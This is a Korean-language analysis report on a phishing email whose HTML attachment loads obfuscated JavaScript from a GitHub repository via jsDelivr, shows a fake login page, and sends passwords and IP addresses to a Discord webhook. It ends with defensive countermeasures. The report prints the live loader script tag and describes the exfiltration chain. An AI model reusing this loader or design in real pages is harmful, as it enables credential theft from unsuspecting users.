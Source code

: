 # Discord Webhook을 활용한 피싱 공격 분석 보고서

## 1. 개요

본 보고서는 Discord Webhook API를 악용하여 사용자 정보를 탈취하는 악성 이메일 첨부파일에 대한 분석 결과를 담고 있습니다. 해당 악성코드는 Discord 메신저의 웹훅 기능을 이용해 사용자의 민감 정보를 외부로 유출하는 형태의 공격입니다.

## 2. 악성 이메일 특징

- **공격 유형**: Discord Webhook API를 활용한 정보 탈취
- **전송 방식**: 이메일 첨부파일(HTML)
- **목표**: 사용자 인증 정보 및 IP 주소 탈취

## 3. 악성 코드 분석

### 3.1 첨부파일 기본 정보

- **파일 형식**: HTML 파일 (JavaScript 코드 포함)
- **MIME 유형**: ASCII 텍스트

### 3.2 외부 리소스 참조

HTML 파일은 다음과 같은 외부 JavaScript 파일을 로드합니다:

```html
<script src="https://cdn.jsdelivr.net/gh/fridaybella2404/animalcare-reserves@main/1a3f7e9b2c4d5a6b8e0f1d2c3b4a5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5.js?hash=85f58b7cd1f07c325b152f63d76acdaca3ce5c198f0f38c0cb868c301c805cbc"></script>
```

#### 주요 특징:
- **CDN 사용**: JSdelivr CDN을 통해 외부 코드 로드
- **소스 위치**: GitHub의 `fridaybella2404/animalcare-reserves` 저장소
- **파일명 특징**: 난독화된 파일명과 해시값 포함

### 3.3 코드 구성 분석

#### 3.3.1 난독화된 JavaScript

악성 코드는 여러 층의 난독화 기법을 사용하여 분석을 어렵게 만들고 있습니다:
```javascript
(function(_0x37f612,_0x3f6271){var _0x528dc7={_0x219712:0x12f,...}
// 수백 줄의 난독화된 코드
```

#### 3.3.2 이메일 주소 포함
```javascript
const oliveOil = "test@gmail.com"
```
- 공격자의 이메일 또는 피해자 이메일로 추정되는 이메일 주소가 하드코딩되어 있습니다.

### 3.4 외부 스크립트 분석

GitHub 저장소에서 로드되는 JavaScript 파일은 다음과 같은 특징을 가지고 있습니다:

1. **다중 난독화**: 여러 층의 난독화 기법을 사용하여 정적 분석을 방해
2. **document.write 사용**: HTML을 동적으로 주입하여 피싱 페이지 생성
3. **Base64 인코딩**: CSS 및 기타 리소스를 Base64로 인코딩하여 탐지 회피

## 4. 공격 흐름 분석

### 4.1 사용자 상호작용
1. 사용자가 이메일의 첨부파일(HTML)을 열고 실행
2. 정상적인 서비스로 위장한 로그인 페이지 표시
3. 사용자가 비밀번호 입력

### 4.2 정보 수집 및 유출
1. **사용자 IP 주소 수집**:
   ```
   https://api.ipify.org?format=json
   ```
   위 API를 통해 사용자의 공용 IP 주소를 수집합니다.

2. **Discord Webhook으로 정보 전송**:
   ```
   https://discord.com/api/webhooks/...
   ```
   수집된 비밀번호와 IP 정보를 Discord Webhook을 통해 공격자의 Discord 채널로 전송합니다.

## 5. 공격 기법 및 특징

1. **정상 서비스 악용**: 
   - JSdelivr CDN(합법적 서비스)을 악용하여 보안 솔루션 우회
   - GitHub(합법적 코드 저장소)를 악용하여 의심 회피
   - Discord Webhook(합법적 API)을 악용한 데이터 유출

2. **난독화 기법**:
   - 변수 난독화
   - 문자열 인코딩
   - Base64 인코딩
   - 코드 분할 및 재조합

## 6. 결론 및 대응 방안

본 분석을 통해 해당 악성 이메일은 Discord Webhook을 악용한 정보 탈취 목적의 피싱 공격으로 확인되었습니다. 해당 공격은 합법적인 서비스들을 교묘하게 활용하여 보안 솔루션의 탐지를 회피하는 특징을 가지고 있습니다.

### 권장 대응 방안:

1. **이메일 첨부파일 주의**: 출처가 불분명한 이메일의 HTML 첨부파일 실행 금지
2. **CDN 모니터링**: JSdelivr 등 CDN을 통한 의심스러운 스크립트 로드 모니터링
3. **Discord Webhook 트래픽 차단**: 조직 내부에서 Discord Webhook 관련 비인가 트래픽 차단
4. **다중 인증(MFA)**: 중요 계정에 다중 인증 적용으로 피싱으로 인한 피해 최소화
5. **보안 인식 교육**: 직원들에게 피싱 공격의 위험성과 식별 방법에 대한 정기적 교육

### 기술적 대응 방안:
- 이메일 필터링 솔루션에 fridaybella2404 관련 GitHub 저장소 URL 차단 규칙 추가
- 웹 프록시에서 Discord Webhook API 호출 모니터링 및 차단
- EDR 솔루션에서 document.write() 함수와 Base64 디코딩 후 실행되는 스크립트 탐지 규칙 강화